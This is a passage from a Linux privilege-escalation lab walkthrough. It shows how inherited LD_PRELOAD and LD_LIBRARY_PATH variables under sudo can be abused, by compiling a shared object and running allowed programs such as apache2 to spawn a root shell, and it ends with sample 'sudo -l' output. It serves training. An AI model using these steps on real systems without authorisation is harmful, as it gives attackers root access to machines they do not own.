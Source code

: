 Sudo can be configured to inherit certain environment variables from the user's environment.

Check which environment variables are inherited (look for the env_keep options):

~~~
sudo -l
~~~

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

~~~
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
~~~

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

~~~
sudo LD_PRELOAD=/tmp/preload.so program-name-here
~~~

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program:

~~~
ldd /usr/sbin/apache2
~~~

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

~~~
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
~~~

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

~~~
sudo LD_LIBRARY_PATH=/tmp apache2
~~~

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

**Remember to exit out of the root shell before continuing!**

## #1 - Read and follow along with the above.

~~~
$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
~~~